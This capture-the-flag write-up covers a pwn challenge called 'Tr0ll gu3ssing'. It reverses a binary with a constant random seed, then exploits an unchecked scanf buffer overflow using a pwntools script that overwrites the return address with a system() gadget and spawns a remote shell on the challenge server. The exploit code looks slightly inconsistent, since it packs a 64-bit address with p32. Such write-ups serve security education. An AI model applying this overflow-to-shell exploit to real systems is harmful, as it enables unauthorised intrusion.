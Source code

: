 # Tr0ll gu3ssing

### Description
Challenge : [Tr0ll gu3ssing](./tr0ll_gu3ssing)<br>
Category  : Pwn<br>
Your task is to find the password without getting trolled, Can you do it?<br>
Connect here to see: 3.91.133.232 4001<br>

![alt challenge](./tr0ll_gu3ssing.jpg)

### Playing with the binary

```bash
$ file tr0ll_gu3ssing
tr0ll_gu3ssing: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7c962869e837557961eed8c73b617c0b4da0a43a, not stripped
$ checksec --file=tr0ll_gu3ssing
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   74) Symbols
```
When we execute the binary locally, it keeps asking for a password
```
$ ./tr0ll_gu3ssing
Can you guess the password : password
Wrong !
Can you guess the password : ^C
```
So I opened the binary in Ghidra and I found that the main() function calls rand_str() function in a while loop which generates<br>
31 random numbers and uses them to construct a 31 bytes long password and waits for input, if we can guess the random password<br>
it will execute system("/bin/cat flag.txt") and give us the flag. At first glance I noticed that the srand() function is  using<br>
a constant as a seed, which means the random numbers will be repeated for every execution of the program and the passwords too<br>
```C
undefined8 main(void)

{
  int iVar1;
  char local_48 [32];
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0x7461632f6e69622f;	//These lines represent
  local_20 = 0x78742e67616c6620;	//the string "/bin/cat flag.txt"
  local_18 = 0x74;			//
  local_10 = 0;				//
  setup();
  srand(0xfedcba98);  			// <== the srand seed is a constant
  while( true ) {
     rand_str(password,0x1f);
     printf("Can you guess the password : ");
     __isoc99_scanf(&DAT_00400ab6,local_48);
     iVar1 = strcmp(local_48,password);
     if (iVar1 == 0) break;
     puts("Wrong !");
  }
  system((char *)&local_28);		//This lines executes "/bin/cat flag.txt"
  return 0;
}
```
So I executed the program with ltrace to copy the password, than executed the program again to enter the password
```bash
setvbuf(0x7f8175d56500, 0, 2, 0)                         = 0
setvbuf(0x7f8175d56420, 0, 2, 0)                         = 0
srand(0xfedcba98, 0, 0, 3072)                            = 0
rand(0x6010b0, 31, 30, 0xffffffff)                       = 0x349fd0f7
rand(0x7f8175d555a0, 0x7ffd255acfb4, 29, 0x7ffd255acff0) = 0x21c7f95e
rand(0x7f8175d555a0, 0x7ffd255acfb4, 28, 0x7ffd255acff0) = 0x54e61835
rand(0x7f8175d555a0, 0x7ffd255acfb4, 27, 0x7ffd255acff0) = 0x4b7b9ebd
rand(0x7f8175d555a0, 0x7ffd255acfb4, 26, 0x7ffd255acff0) = 0x228d91b9
rand(0x7f8175d555a0, 0x7ffd255acfb4, 25, 0x7ffd255acff0) = 0x6c61ddb
rand(0x7f8175d555a0, 0x7ffd255acfb4, 24, 0x7ffd255acff0) = 0x2ed20179
rand(0x7f8175d555a0, 0x7ffd255acfb4, 23, 0x7ffd255acff0) = 0xb9716cb
rand(0x7f8175d555a0, 0x7ffd255acfb4, 22, 0x7ffd255acff0) = 0xfd12d8
rand(0x7f8175d555a0, 0x7ffd255acfb4, 21, 0x7ffd255acff0) = 0x7e7d104c
rand(0x7f8175d555a0, 0x7ffd255acfb4, 20, 0x7ffd255acff0) = 0x311d19a4
rand(0x7f8175d555a0, 0x7ffd255acfb4, 19, 0x7ffd255acff0) = 0x246dc994
rand(0x7f8175d555a0, 0x7ffd255acfb4, 18, 0x7ffd255acff0) = 0x22944d10
rand(0x7f8175d555a0, 0x7ffd255acfb4, 17, 0x7ffd255acff0) = 0x50177ec7
rand(0x7f8175d555a0, 0x7ffd255acfb4, 16, 0x7ffd255acff0) = 0x77677ea4
rand(0x7f8175d555a0, 0x7ffd255acfb4, 15, 0x7ffd255acff0) = 0x3e78d0eb
rand(0x7f8175d555a0, 0x7ffd255acfb4, 14, 0x7ffd255acff0) = 0x3813b56
rand(0x7f8175d555a0, 0x7ffd255acfb4, 13, 0x7ffd255acff0) = 0x3f6dc89
rand(0x7f8175d555a0, 0x7ffd255acfb4, 12, 0x7ffd255acff0) = 0x324c42e8
rand(0x7f8175d555a0, 0x7ffd255acfb4, 11, 0x7ffd255acff0) = 0x2590bee1
rand(0x7f8175d555a0, 0x7ffd255acfb4, 10, 0x7ffd255acff0) = 0x238078f5
rand(0x7f8175d555a0, 0x7ffd255acfb4, 9, 0x7ffd255acff0)  = 0x75cff8db
rand(0x7f8175d555a0, 0x7ffd255acfb4, 8, 0x7ffd255acff0)  = 0x5f982bb7
rand(0x7f8175d555a0, 0x7ffd255acfb4, 7, 0x7ffd255acff0)  = 0x33b26bc4
rand(0x7f8175d555a0, 0x7ffd255acfb4, 6, 0x7ffd255acff0)  = 0x729ab7d8
rand(0x7f8175d555a0, 0x7ffd255acfb4, 5, 0x7ffd255acff0)  = 0x345fb224
rand(0x7f8175d555a0, 0x7ffd255acfb4, 4, 0x7ffd255acff0)  = 0x16cb4791
rand(0x7f8175d555a0, 0x7ffd255acfb4, 3, 0x7ffd255acff0)  = 0x5a597d0
rand(0x7f8175d555a0, 0x7ffd255acfb4, 2, 0x7ffd255acff0)  = 0x11cc008c
rand(0x7f8175d555a0, 0x7ffd255acfb4, 1, 0x7ffd255acff0)  = 0x752d837e
rand(0x7f8175d555a0, 0x7ffd255acfb4, 0, 0x7ffd255acff0)  = 0x757a8394
printf("Can you guess the password : "Can you guess the password : )                  = 29
__isoc99_scanf(0x400ab6, 0x7ffd255ad060, 0, 0password
)           = 1
strcmp("password", "pgFAg3m50ZnhgCVu11oihVKpTpb28UU")    = -6	    // <== here is the first generated password
puts("Wrong !" ^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
$ ./tr0ll_gu3ssing
Can you guess the password : pgFAg3m50ZnhgCVu11oihVKpTpb28UU
/bin/cat: flag.txt: No such file or directory
```
Cool! Now let's try it in the remote host
```bash
$ nc 3.91.133.232 4001
Can you guess the password : pgFAg3m50ZnhgCVu11oihVKpTpb28UU
We've been tricked, we've been backstabbed and we've been quite possibly, bambooozled.
```
It seems that the flag.txt file was just a trap, this is a pwn challenge afterall, and all we did until now is reversing<br>
so let's try something different, notice that the main() function uses scanf() for input, and there is no length check!<br>
We have a buffer-overflow with no stack-canary and with PIE disabled, so let's write an exploit:<br>
### Exploit
1_ overwrite the return address with system() gadget address.<br>
2_ overwrite the "/bin/cat flag.txt" string with "/bin/bash\0".<br>
3_ enter the right password for the 3rd iteration to break the loop and get a shell.<br>
```python3
#!/usr/bin/env python3

from pwn import *

log.info(ELF("./tr0ll_gu3ssing").checksec())

io = remote('3.91.133.232', 4001)

system_gadget = p32(0x400870)

log.info('Overwriting the return address with system() gadget address')
io.sendline('A'*0x48 + str(system_gadget))

log.info('Overwriting the string "/bin/cat flag.txt" with "/bin/bash\0"')
io.sendline('A'*0x20 + '/bin/bash')

log.info('Sending the 3rd password to break the loop')
io.sendline('IQ0RiDmPhQKcCi4RSXvK75mHxor2y6t')

io.interactive()
io.close()
```
# Flag
```
$ ./exploit.py
[*] '/home/shell/Documents/shellmates/tr0ll_gu3ssing/tr0ll_gu3ssing'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 3.91.133.232 on port 4001: Done
[*] Overwriting the return address with system() gadget address
[*] Overwriting the string "/bin/cat flag.txt" with "/bin/bash\x00
[*] Sending the 3rd password to break the loop
[*] Switching to interactive mode
Can you guess the password : Wrong !
Can you guess the password : Wrong !
Can you guess the password : $ ls
Th3_acTu4l_fl4G.txt
flag.txt
runserver.sh
tr0ll_gu3ssing
$ cat Th3_acTu4l_fl4G.txt
shellmates{ev3n_sc4nf_ha5_pr0bl3ms}
$
[*] Closed connection to 3.91.133.232 port 4001
```

